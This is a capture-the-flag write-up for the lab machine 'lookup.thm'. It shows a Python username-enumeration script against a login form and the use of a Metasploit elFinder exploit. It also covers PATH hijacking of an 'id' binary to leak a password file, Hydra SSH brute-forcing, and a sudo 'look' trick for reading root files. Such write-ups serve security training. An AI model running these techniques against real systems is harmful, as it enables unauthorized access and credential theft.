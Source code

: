 >Nmap showed 2 open ports, 22 and 80<br>
>by going to 80, it came to login page at `http://lookup.thm`<br>
>doing simple creds like admin:admin shows error message that reveals that only the password was incorrect.
>making a simple python scripts to run a check if any user have a simple password like "password".

```bash
import requests
# Define the target URL
url = "http://lookup.thm/login.php"

# Define the file path containing usernames
file_path = "/usr/share/seclists/Usernames/Names/names.txt"

# Read the file and process each line
try:
    with open(file_path, "r") as file:
        for line in file:
            username = line.strip()
            if not username:
                continue  # Skip empty lines
            
            # Prepare the POST data
            data = {
                "username": username,
                "password": "password"  # Fixed password for testing
            }

          # Send the POST request
            response = requests.post(url, data=data)
            
            # Check the response content
            if "Wrong password" in response.text:
                print(f"Username found: {username}")
            elif "wrong username" in response.text:
                continue  # Silent continuation for wrong usernames
except FileNotFoundError:
    print(f"Error: The file {file_path} does not exist.")
except requests.RequestException as e:
    print(f"Error: An HTTP request error occurred: {e}") 
```

>users "admin" and "jose" came back possitive, logged in as `jose:password` to files.lookup.thm
>added the files.lookup.thm to /etc/hosts and found **elFinder 2.1.47** framework,
>found an exploit on msfconsole related to it, and logged in as www-data on the machine.
>(it was wierd that i could look into `/home/think` directory )<br>
`find / -type f -a \( -perm -u+s -o -perm -g+s \) -exec ls -l {} \; 2>/dev/null`
found executing binary "/usr/sbin/pwm"<br>
by looking at the code, it showed me this:

`[!] Running 'id' command to extract the username and user ID (UID)idr[-] Error executing id command<br>`
`uid=%*u(%[^)])[-] Error reading username from id command<br>`
`[!] ID: %s`
`/home/%s/.passwords[-] File /home/%s/.passwords not found`

the user think had ".passwords" at hes ~<br>
had to impersonate the user by creating the 'id' binary,<br>
`export PATH=/tmp:$PATH`<br>
`cd /tmp ; touch id`<br>
`echo '#!/bin/bash' > /tmp/id`<br>
`echo 'echo "uid=33(think) gid=33(think) groups=33(think)"' >> /tmp/id`<br>
`chmod +x id`

/usr/sbin/pwm    --> reveals a password list at 'think' home directory.

`hydra -l think -P passlist ssh://lookup.thm`<br>
`[22][ssh] host: lookup.thm   login: think   password: josemario.AKA(think)`

'sudo -l' reveals --> *(ALL) /usr/bin/look*<br>
[GTFObins](https://gtfobins.github.io/gtfobins/look/#sudo)
`LFILE=file_to_read` (replace file_to_read with /root/root.txt)<br>
`sudo look '' "$LFILE"` <br>
**gg**
